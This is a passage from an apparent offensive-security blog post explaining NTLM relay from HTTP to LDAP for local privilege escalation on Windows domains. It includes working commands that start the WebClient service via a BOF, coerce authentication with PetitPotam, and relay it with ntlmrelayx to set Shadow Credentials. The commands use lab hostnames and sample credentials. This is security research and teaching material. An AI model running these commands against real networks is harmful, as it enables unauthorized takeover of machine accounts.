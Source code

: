   <img src="/assets/img/20251029/55.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Valid coercion</div>
</div>
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/56.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Authenticated WebDAV access</div>
</div>

NTLM relay over HTTP to LDAP is often exploited for local privilege escalation, as demonstrated in [NTLMRelay2Self](https://github.com/med0x2e/NTLMRelay2Self). By default, the WebClient service is not enabled on Windows, but if we register an ETW event trigger, Windows automatically enables the WebClient service. This method does not require local administrator privileges. Then, we can coerce NTLM authentication from the machine account over HTTP and relay it to LDAP. Using the techniques described above (RBCD or Shadow Credentials), we can take over the machine account and gain local administrator privileges.
```sh
# Build the BOF on Ubuntu
x86_64-w64-mingw32-gcc -c StartWebClientSvc.c -o StartWebClientSvc.x64.o
# Execute the BOF from NTLMRelay2Self
COFFLoader64.exe go StartWebClientSvc.x64.o

# NTLM relay to LDAP for Shadow Credentials
sudo python3 ntlmrelayx.py -smb2support -t ldap://dc2.kawakatz.local --shadow-credentials --shadow-target 'WKS$' --no-dump --no-da --no-acl --no-validate-privs
python3 PetitPotam.py -u coward -p 'P@ssw0rd' -d kawakatz.local <attacker ip>@80/share wks.kawakatz.local

# Abuse the certificate as above...
```
<div style="text-align: center; margin: 20px 0;">